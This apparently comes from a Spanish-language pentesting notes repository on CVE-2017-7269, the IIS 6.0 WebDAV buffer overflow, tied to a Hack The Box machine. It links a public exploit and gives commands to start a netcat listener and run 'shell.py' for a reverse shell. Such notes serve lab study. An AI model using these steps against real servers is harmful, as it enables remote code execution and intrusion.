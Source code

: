## DESCRIPTION

Desbordamiento de búfer en la función ScStoragePathFromUrl en el servicio WebDAV en Internet Information Services (IIS) 6.0 en Microsoft Windows Server 2003 R2 permite a atacantes remotos ejecutar código arbitrario a través de una cabecera larga comenzando con "If:

El protocolo WebDAV (Web-based Distributed Authoring and Versioning) está desarrollado por la IETF, es un protocolo que se encarga de permitirnos de forma sencilla guardar, editar, copiar, mover y compartir archivos desde servidores web. 

#### Mas información:
* https://www.incibe-cert.es/alerta-temprana/vulnerabilidades/cve-2017-7269
* https://www.redeszone.net/tutoriales/internet/webdav-que-es-configuracion/

## EXPLOITATION

1. Existen diferentes formas, pero la más sencilla es descargar el exploit: https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269.git

2. Levantamos un nc a la escucha:

```
nc -lvnp Port_listen
```

3. Ejecutamos:

```
python shell.py IP_Dest Port_Dest IP_listent Port_lisen
```

## MACHINES

* Hack The Box: Granda

